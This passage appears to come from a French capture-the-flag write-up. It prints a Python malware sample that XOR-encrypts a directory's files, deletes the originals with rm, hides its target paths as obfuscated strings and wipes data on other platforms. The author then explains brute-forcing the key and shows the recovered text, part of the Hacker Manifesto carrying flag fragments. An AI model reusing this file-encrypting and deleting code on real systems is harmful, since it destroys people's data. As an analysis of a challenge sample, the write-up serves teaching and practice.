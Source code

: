 ```py
        files = [f for f in os.listdir(path) if os.path.isfile(os.path.join(path, f))]
        for f in files:
            c = open(path+f,"rb").read()
            nc = xor(c,aux)
            l = open(path+f+"_enc","wb")
            l.write(nc)
            l.close()
            os.system("rm "+path+f)

def uncipherFilePathForWindows(key):
    enc = "\x34\x5f\x03\x3d\x25\x0c\x31\x10\x07\x12\x2c\x3a\x35\x3d\x18\x1f\x2b\x0d\x0c\x50\x59\x5e\x31\x49\x2b\x39\x08\x08\x1c\x01\x30\x03\x1b\x39\x03\x35\x10\x1d\x15\x09\x32\x53\x3d\x3f\x28\x5f\x2e\x2f\x20\x0c\x31\x05\x1d\x12\x2c\x28\x34\x35\x2d\x09\x0e\x1c\x00\x01\x7f\x2e\x08\x0f\x0e\x16\x49\x30\x4d\x39\x03\x36\x1b\x0b\x3b\x1b\x1f\x16\x03\x3a\x2b\x01\x0e\x18\x64\x2b\x5b\x3f\x37\x32\x1b\x1d\x13\x0a\x28\x12\x2e\x39\x37\x1c\x46\x00\x27\x03"
    return xor(enc,key)

def uncipherFilePathForLinux(key):
    enc = "\x58\x07\x36\x0f\x49\x4a\x2a\x07\x1a\x4a\x3d\x0f\x07\x55\x4e\x1c\x2d\x07\x02\x58\x44\x07\x1d\x1c\x03\x5e\x70\x05\x17\x13"
    return xor(enc,key)

def getKey():
    ret = ""
    k = [1904,1616,1520,1552,1824,1616,1520,1856,1664,1616,1520,1632,1680,1760,1552,1728,1520,1664,1552,1584,1712,1616,1824,1840]
    for _ in k:
        ret += chr(_ >> 4)
    return ret

def main():
    key = getKey()
    if("linux" in currentPlatform.lower()):
        encryptSystemFile(uncipherFilePathForLinux(key))    
    else:
        if("windows" in currentPlatform.lower()):
            encryptSystemFile(uncipherFilePathForWindows(key))
        else:
            print(deleteAll())
main()
```

On se rend vite compte que la fonction qui nous intéresse est xor() puisqu'elle chiffre le fichier qu'elle a en entrée.

On comprend vite que la fonction utilise la clé "We will get you. Don't fuck with us.", avec un nombre aléatoire derrière. Cela ce bruteforce assez vite, et on arrive à retrouver notre fichier original :

```
Another one got caught today, it's all over the papers.  "Teenager
Arrested in Computer Crime Scandal", "Hacker Arrested after Bank Tampering"...
Damn kids.  They're all alike.
MCTF{
But did you, in your three-piece psychology and 1950's technobrain,
ever take a look behind the eyes of the hacker?  Did you ever wonder what
made him tick, what forces shaped him, what may have molded him?
I am a hacker, enter my world...
Mine is a world that begins with school... I'm smarter than most ofthe other kids, this crap they teach us bores me...
Damn underachiever.  They're all alike.
Y0u_
I'm in junior high or high school.  I've listened to teachers explain for the fifteenth time how to reduce a fraction.  I understand it.  "No, Ms.
```